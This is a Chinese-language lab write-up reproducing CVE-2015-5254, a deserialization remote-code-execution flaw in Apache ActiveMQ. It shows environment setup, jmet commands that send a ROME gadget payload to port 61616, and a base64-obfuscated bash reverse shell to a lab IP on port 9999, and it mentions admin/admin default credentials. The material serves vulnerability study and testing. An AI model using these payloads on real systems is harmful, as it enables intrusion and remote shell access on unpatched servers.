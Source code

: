 # Apache ActiveMQ 反序列化漏洞 CVE-2015-5254

## 漏洞描述

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务，集群，Spring Framework等。Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行任意代码。

## 漏洞影响

```
Apache ActiveMQ 5.13.0之前5.x版本
```

## 环境搭建

### 安装jdk

查看java版本，如果是java 11需要切换到java 8

```
java -version
```

安装java 8，默认安装路径/usr/lib/jvm/java-8-openjdk-amd64

```
sudo apt install openjdk-8-jdk
```

配置环境变量，添加jdk安装路径

```
sudo vim ~/.bashrc

# 在最后一行添加
export JAVA_HOME=/usr/lib/jvm/java-8-openjdk-amd64
```

### 切换jdk版本

采用update-alternatives命令进行版本切换

 /usr/bin/java和/usr/lib/jvm/java-8-openjdk-amd64/bin/java两个路径一定要和自己的路径吻合

```
sudo update-alternatives --install /usr/bin/java java /usr/lib/jvm/java-8-openjdk-amd64/bin/java 1070
```

切换jdk

```
sudo update-alternatives --config java
```

![image-20220221132209838](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211324903.png)

再次查看java版本，切换成功

![image-20220221132246597](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211324904.png)

## 漏洞复现

Vulhub搭建及运行漏洞环境：

```
docker-compose up -d
```

下载 jmet [下载链接](https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar)

```shell
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
mkdir external
```

对目标发送一个生成**/tmp/awesome_poc**的 payload

```plain
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/awesome_poc" -Yp ROME 192.168.174.128 61616
```

![image-20220221133654012](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211345369.png)

访问 http://192.168.174.128:8161/admin/browse.jsp?JMSDestination=event 可以看到多了一条消息队列，ID为kali-38087-1645421794512-1:1:1:1:1

默认账号密码：admin/admin

![image-20220221133733242](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211345370.png)

点击这个信息触发文件创建，成功执行命令 touch /tmp/awesome_poc

![image-20220221133952983](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211345371.png)

![2](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211324906.png)也可以创建一个反弹shell的payload

```shell
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

# 发送payload
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.174.128 61616
```

![image-20220221134243490](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211345372.png)

查看消息队列，ID为kali-38435-1645422155171-1:1:1:1:1

![image-20220221134313545](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211345373.png)

监听9999端口，点击消息队列会触发命令执行，反弹Shell

![image-20220221134508900](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211345374.png)

